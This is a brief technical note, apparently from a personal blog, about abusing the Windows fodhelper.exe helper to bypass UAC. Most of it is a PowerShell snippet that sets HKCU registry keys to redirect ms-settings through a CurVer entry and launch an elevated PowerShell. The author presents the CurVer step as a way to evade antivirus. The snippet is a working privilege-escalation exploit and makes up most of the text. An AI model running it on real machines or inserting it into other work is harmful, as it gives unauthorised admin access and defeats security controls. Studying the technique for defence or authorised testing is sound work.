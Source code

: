 # Exploiting the Windows "Feature on Demand" Helper

**author**:: Nathan Acks  
**date**:: 2022-09-02

The fodhelper binary can be abused to gain an admin shell on Windows boxes with a couple of registry key changes. They key (heh) here is to use the CurVer registry key to point fodhelper.exe to a different registry location; otherwise most AV solutions will catch this change and block it (though sometimes the command will still execute).

```powershell
New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" `
	-Name "(default)" -Value "cmd.exe /c start powershell.exe" -Force
    
New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" `
	-Name "(default)" -value ".pwn" -Force
```

* [Utilizing Programmatic Identifiers (ProgIDs) for UAC Bypasses](https://v3ded.github.io/redteam/utilizing-programmatic-identifiers-progids-for-uac-bypasses)
